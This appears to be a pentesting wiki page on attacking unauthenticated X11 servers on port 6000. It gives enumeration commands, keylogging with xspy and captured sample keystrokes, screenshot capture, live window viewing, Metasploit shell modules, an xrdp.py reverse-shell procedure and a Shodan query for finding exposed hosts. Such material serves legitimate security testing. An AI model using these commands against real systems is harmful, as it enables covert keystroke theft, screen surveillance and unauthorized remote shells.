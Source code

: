 # 6000 - Pentesting X11

## Basic Information

The X Window System \(aka X\) is a windowing system for bitmap displays, which is common on UNIX-based operating systems. X provides the basic framework for a GUI based environment. X also does not mandate the user interface – individual programs handle this.  
From: [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/\#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)

**Default port:** 6000

```text
PORT       STATE   SERVICE
6000/tcp   open    X11
```

## Enumeration

Check for **anonymous connection:**

```bash
nmap -sV --script x11-access -p <PORT> <IP>
msf> use auxiliary/scanner/x11/open_x11
```

## Verfy Connection

```bash
xdpyinfo -display <ip>:<display>
xwininfo -root -tree -display <IP>:<display> #Ex: xwininfo -root -tree -display 10.5.5.12:0
```

## Keyloggin

[xspy](http://tools.kali.org/sniffingspoofing/xspy) to sniff the keyboard keystrokes.

Sample Output:

```text
xspy 10.9.xx.xx

opened 10.9.xx.xx:0 for snoopng
swaBackSpaceCaps_Lock josephtTabcBackSpaceShift_L workShift_L 2123
qsaminusKP_Down KP_Begin KP_Down KP_Left KP_Insert TabRightLeftRightDeletebTabDownnTabKP_End KP_Right KP_Up KP_Down KP_Up KP_Up TabmtminusdBackSpacewinTab
```

## Screenshots capturing

```bash
xwd -root -screen -silent -display <TargetIP:0> > screenshot.xwd
convert screenshot.xwd screenshot.png
```

## Remote Desktop View

Way from: [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/\#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)

```text
./xrdp.py <IP:0>
```

Way from: [https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html](https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html)

First we need to find the ID of the window using xwininfo

```text
xwininfo -root -display 10.9.xx.xx:0

xwininfo: Window id: 0x45 (the root window) (has no name)

Absolute upper-left X:  0
Absolute upper-left Y:  0
Relative upper-left X:  0
Relative upper-left Y:  0
Width: 1024
Height: 768
Depth: 16
Visual: 0x21
Visual Class: TrueColor
Border width: 0
Class: InputOutput
Colormap: 0x20 (installed)
Bit Gravity State: ForgetGravity
Window Gravity State: NorthWestGravity
Backing Store State: NotUseful
Save Under State: no
Map State: IsViewable
Override Redirect State: no
Corners:  +0+0  -0+0  -0-0  +0-0
-geometry 1024x768+0+0
```

**XWatchwin**

For **live viewing** we need to use

```bash
./xwatchwin [-v] [-u UpdateTime] DisplayName { -w windowID | WindowName } -w window Id is the one found on xwininfo
./xwatchwin 10.9.xx.xx:0 -w 0x45
```

## Get Shell

```text
msf> use exploit/unix/x11/x11_keyboard_exec
```

Other way:

**Reverse Shell:** Xrdp also allows to take reverse shell via Netcat. Type in the following command:

**./xrdp.py &lt;IP:0&gt; –no-disp**  


![](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/112217_0051_ExploitingX15.jpg)

It will prompt a new control pane where we can see the R-shell option, which is illustrated below:

![](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/112217_0051_ExploitingX16.jpg)

We will start the Netcat listening mode in our local system on port 5555, which is illustrated below:

![](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/112217_0051_ExploitingX17.jpg)

Then add the IP and port and then select R-Shell, which is illustrated below:

![](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/112217_0051_ExploitingX18.jpg)

Now as can be seen below we have complete system access:

![](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/112217_0051_ExploitingX19.jpg)

{% embed url="https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/\#gref" %}

## Shodan

* `port:6000 x11`

